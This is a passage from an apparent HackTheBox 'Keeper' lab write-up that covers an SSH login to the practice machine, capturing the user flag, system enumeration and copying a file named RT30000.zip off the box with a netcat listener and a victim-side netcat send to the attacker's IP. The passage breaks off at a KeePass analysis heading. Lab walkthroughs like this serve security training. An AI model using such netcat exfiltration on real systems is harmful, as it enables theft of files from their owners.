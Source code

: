 ### 3.1 SSH Access

We connect via SSH:

```bash
ssh lnorgaard@10.10.11.227
```

![](GitHubv2/HackTheBox/EASY/Keeper/screenshots/ssh_lnorgaard.png)

🏁 **User flag obtained**.

---
## 4. Post-Exploitation

### 4.1 Gathering System Info

We check user and system details:

```bash
id
lsb_release -a
ls -l
```

![](GitHubv2/HackTheBox/EASY/Keeper/screenshots/ssh_lnorgaard_info.png)

This is an Ubuntu Jammy system.

---
### 4.2 File Exfiltration via Netcat

We find `RT30000.zip` and exfiltrate it:

**Attacker:**
```bash
nc -nlvp 443 > file.zip
```

**Victim:**
```bash
nc 10.10.14.7 443 < RT30000.zip
```

![](GitHubv2/HackTheBox/EASY/Keeper/screenshots/download_zip_file.png)

Verify integrity:

```bash
md5sum file.zip
```

![](GitHubv2/HackTheBox/EASY/Keeper/screenshots/zip_file_hash.png)

---
### 4.3 KeePass Database Analysis
